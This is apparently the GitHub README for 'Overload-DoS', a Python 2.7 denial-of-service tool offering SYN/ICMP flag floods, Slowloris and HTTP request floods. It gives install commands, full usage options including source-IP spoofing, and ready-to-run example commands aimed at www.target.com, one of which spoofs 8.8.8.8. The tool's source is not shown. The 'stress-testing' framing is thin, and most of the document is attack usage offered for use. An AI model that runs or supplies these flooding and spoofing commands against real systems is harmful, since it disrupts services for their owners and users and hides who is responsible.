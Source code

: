 # Overload-DoS

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install Overload-Dos

```
git clone https://github.com/codingplanets/Overload-DoS
```
```
cd Overload-DoS
```
```
chmod +x *
```
```
./install-overload
```
## Usages
```
usage: ./Overload-DoS.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./Overload-DoS.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```

## Built With

* [Python 2.7](https://www.python.org/download/releases/2.7/) - The code framework used
* [Requests](http://docs.python-requests.org/en/master/) - Used to send DoS attack
* [Colorama](https://pypi.python.org/pypi/colorama) - Used to generate text color
* [Termcolor](https://pypi.python.org/pypi/termcolor) - Used to generate text color



## Authors

* **Chris Poole**  -  Twitter: [@codingplanets](https://twitter.com/codingplanets)  -  Github: [codingplanets](https://github.com/codingplanets)  -  Pastebin: [1337ings](https://pastebin.com/u/1337ings)


## License

This project is licensed under the MIT License


